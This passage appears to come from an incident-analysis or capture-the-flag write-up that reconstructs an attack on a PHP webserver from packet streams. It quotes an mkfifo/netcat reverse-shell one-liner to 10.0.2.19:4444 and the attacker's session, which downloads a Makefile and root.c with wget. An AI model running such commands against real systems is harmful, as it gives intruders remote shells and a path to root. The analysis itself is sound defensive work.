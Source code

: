 ```

mkfifo /tmp/osfiftm; nc 10.0.2.19 4444 0</tmp/osfiftm | /bin/sh >/tmp/osfiftm 2>&1; rm /tmp/osfiftm

```

Sure enough, stream 26 is the webserver connecting to the attacker on 4444, and running commands:

```

ls
ajax-tab.php
ajax.php
ajax_products_list.php
autoupgrade
backup.php
backups
bootstrap.php
cron_currency_rates.php
displayImage.php
drawer.php
export
favicon.ico
filemanager
footer.inc.php
functions.php
get-file-admin.php
grider.php
header.inc.php
import
index.php
init.php
pdf.php
public
robots.txt
searchcron.php
themes
webpack.config.js
cd /tmp
ls -la
total 8
drwxrwxrwt  2 root    root      4096 Dec 10 21:52 .
drwxr-xr-x 22 root    root      4096 Dec  4 21:20 ..
prw-r--r--  1 ib01c01 customers    0 Dec 10 21:52 osfiftm
wget 10.0.2.19/Makefile
--2018-12-10 21:53:00--  http://10.0.2.19/Makefile
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 154 [application/octet-stream]
Saving to: 'Makefile'

     0K                                                       100% 19.0M=0s

2018-12-10 21:53:00 (19.0 MB/s) - 'Makefile' saved [154/154]

wget 10.0.2.19/root.c
--2018-12-10 21:53:20--  http://10.0.2.19/root.c
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3094 (3.0K) [text/plain]
Saving to: 'root.c'

     0K ...                                                   100%  318M=0s

2018-12-10 21:53:20 (318 MB/s) - 'root.c' saved [3094/3094]
```